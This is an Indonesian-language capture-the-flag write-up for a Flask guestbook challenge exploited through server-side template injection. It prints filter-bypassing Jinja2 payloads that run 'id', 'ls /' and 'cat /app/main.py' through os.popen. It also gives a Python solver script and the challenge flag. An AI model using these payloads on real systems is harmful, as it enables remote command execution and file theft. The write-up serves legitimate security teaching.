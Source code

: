 ## Guestbook (Beta)

<details>
  <summary>Deskripsi</summary>
  
  > You know what you do!
  >
  > http://0x7e7ctf.zerobyte.me:40009/
  >
  > Author: novran
  
</details>

![1](img/1.png)

Diberikan sebuah challenge web yang diminta untuk menginputkan Nama, yang jika disubmit akan tampil Namanya

![2](img/2.png)

Kemudian kami coba cari Tech Stack pada webnya ternyata menggunakan Flask, mengingat Flask ini dapat bisa juga vulnerable dengan SSTI apabila kesalahan dalam scriptingnya.

![3](img/3.png)

Lalu kami coba lakukan exploitasi pada inputnya, setelah saya menginputkan basic payload umum pada SSTI `{{7*7}}` dan ternyata benar bahwa kita bisa melakukan SSTI disini.

![4](img/4.png)

Berikut adalah link repo segala payload yang kami gunakan untuk melakukan bypass filters https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server

![5](img/5.png)

![6](img/6.png)

```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```

![6](img/6.png)

```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls /')|attr('read')()}}
```

![7](img/7.png)

Dapat dibuktikan bahwa payload tersebut telah berhasil dieksekusi, oleh karena itu tinggal cari flag dan baca isi file saja.

![8](img/8.png)

```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat /app/main.py')|attr('read')()}}
```

Penyelesaian dengan Solver

```python
import requests
import re

url = "http://0x7e7ctf.zerobyte.me:40009"
endpoint = "/?name="
payload = "{{request|attr(%27application%27)|attr(%27\x5f\x5fglobals\x5f\x5f%27)|attr(%27\x5f\x5fgetitem\x5f\x5f%27)(%27\x5f\x5fbuiltins\x5f\x5f%27)|attr(%27\x5f\x5fgetitem\x5f\x5f%27)(%27\x5f\x5fimport\x5f\x5f%27)(%27os%27)|attr(%27popen%27)(%27cat%20/app/main.py%27)|attr(%27read%27)()}}"

response = requests.get(url + endpoint + payload)

flag = re.findall(r'0byteCTF\{[A-Za-z0-9_]+\}', response.text)
print(flag)
```

<details>
  <summary>Flag</summary>
  
  > `0byteCTF{Th3_M4n_wh0_Th1nks_h3_C4n_4nd_th3_M4n_wh0_Th1nks_h3_C4nt_4r3_B0th_R1ght}`
  
</details>
